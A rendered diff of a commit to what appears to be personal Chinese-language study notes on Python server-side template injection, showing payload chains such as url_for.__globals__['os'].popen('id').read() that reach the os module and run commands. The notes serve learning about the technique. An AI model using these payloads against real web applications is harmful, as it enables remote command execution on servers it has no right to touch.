

Before and after one commit to whb54012/vscode-notes, a Markdown page: 漏洞类型/ssti/python模板注入.md, the part around the change. Drawn GitHub-style.

Commit message:
自动提交：更新 ${2026/10/20 16:19ilenPM19e}

````diff
--- a/漏洞类型/ssti/python模板注入.md
+++ b/漏洞类型/ssti/python模板注入.md
@@ -48,9 +48,9 @@ print(cat().__class__.__init__.__globals__['os'].popen('id').read())
 ### `__init__`:拿出构造函数对象object的方法
 
 ```
-cat().__class__.__init__
+存在的对象.__class__.__init__
 ```
-#### **或者直接使用`url_for`,`get_flashed_messages`,lipsum,cycler,joiner,namespace这些象征函数对象的,使用是不用在经过__class__.__init__调出函数对象**
+#### **或者直接使用`url_for`,`get_flashed_messages`,lipsum,cycler,joiner,namespace这些象征函数对象的,使用是不用在经过__class__.__init__调出函数对象，但如果使用url_for()，它返回的是普通变量，这时候就不会存在全局字典了**
 
 ```
 url_for.__globals__['os'].popen('id').read()
@@ -59,11 +59,11 @@ url_for.__globals__['os'].popen('id').read()
 #### `__globals__`:对象方法模块出生的全局字典,包含os等主要模块
 
 ```
-url_for().__class__.__init__.__globals__
+存在的对象.__class__.__init__.__globals__
 ```
 #### 掏出全局字典的os
 ```
-url_for().__class__.__init__.__globals__['os']
+存在的对象url_for().__class__.__init__.__globals__['os']
 ```
 
 
````
